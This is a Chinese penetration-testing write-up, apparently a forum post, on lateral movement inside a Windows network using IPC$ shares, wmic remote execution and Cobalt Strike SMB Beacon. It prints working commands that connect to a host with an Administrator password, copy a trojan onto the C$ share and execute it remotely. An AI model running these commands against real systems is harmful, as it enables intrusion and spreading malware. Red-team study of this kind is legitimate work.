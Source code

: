 0x03横向移动
--------

### IPC$横向

IPC$ 是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用IPC$可以与目标主机建立一个连接，利用这个连接，可以实现远程登陆及对默认共享的访问、访问目标机器的文件，上传、下载，也可以在目标机器上运行命令等。

#### 使用条件

• **管理员开启了默认共享**

默认共享是为了方便管理员远程管理而默认开启的共享，我们通过IPC连接可以实现对这些默认共享的访问。可以通过net share命令查看，前期信息收集时，就已经查看过当前主机是开启了默认共享的。

• **139、445端口开启**

IPC连接需要139或445端口来支持，我们可以通过139和445端口来实现对共享文件/打印机的访问，IPC$连接默认会走445端口，不通的话会走139端口，这两个端口都可以单独实现文件共享。

当前主机满足上述IPC的利用条件，所以先尝试做IPC连接，发现10.23可以连接成功

```php
shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-41d11381c4b900ef262800d1c368e5525e8d1a12.png)

然后在本机传个马，copy过去

```php
shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b1204e7646dd86909c1323692d6ce2bc197e2827.png)

之后利用wmic远程执行

```php
shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
```

但是在我传过去之后机器久久未上线，远程获取进程发现也并无杀软，猜测目标机器不出网。

### SMB Beacon

SMB Beacon使用命名管道与父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，常用来绕防火墙有奇效。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-351ebda65dc101d6c43b361640fdc874633759b8.png)

#### 使用条件

• 具有SMB Beacon的主机必须接受端口445上的连接

• 只能链接由同一Cobalt Strike实例管理的Beacon

在域中，默认域用户是可以登录到除域控以外的所有主机。当我们得到其中一个域用户的账号密码，所以我们可以利用该域用户与其他主机建立IPC连接，然后让其他主机进行SMB Beacon上线，于是批量扫了下445开放的主机
